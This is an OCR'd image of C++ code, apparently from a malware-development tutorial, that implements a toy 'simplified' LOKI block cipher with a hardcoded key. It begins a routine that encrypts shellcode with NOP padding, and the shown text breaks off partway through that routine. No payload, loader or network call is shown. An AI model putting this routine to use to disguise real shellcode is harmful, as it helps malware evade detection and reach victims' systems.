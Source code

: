```cpp
typedef uint8_t u8;

u8 key[KEY_SIZE] = {0x01, 0x23, 0x45, 0x67, 0x89, 0xAB, 0xCD, 0xEF};

void loki_encrypt(u8 *block, u8 *key) {
  // LOKI encryption (simplified for demo)
  u32 left = ((u32)block[0] << 24) | ((u32)block[1] << 16) | 
  ((u32)block[2] << 8) | (u32)block[3];
  u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
  ((u32)block[6] << 8) | (u32)block[7];

  for (int round = 0; round < ROUNDS; round++) {
    u32 temp = right;
    right = left ^ (right + ((u32)key[round % KEY_SIZE]));
    left = temp;
  }

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}

void loki_decrypt(u8 *block, u8 *key) {
  // LOKI decryption (simplified for demo)
  u32 left = ((u32)block[0] << 24) | ((u32)block[1] << 16) | 
  ((u32)block[2] << 8) | (u32)block[3];
  u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
  ((u32)block[6] << 8) | (u32)block[7];

  for (int round = ROUNDS - 1; round >= 0; round--) {
    u32 temp = left;
    left = right ^ (left + ((u32)key[round % KEY_SIZE]));
    right = temp;
  }

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}

void loki_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    loki_encrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    loki_encrypt(pad, key);
```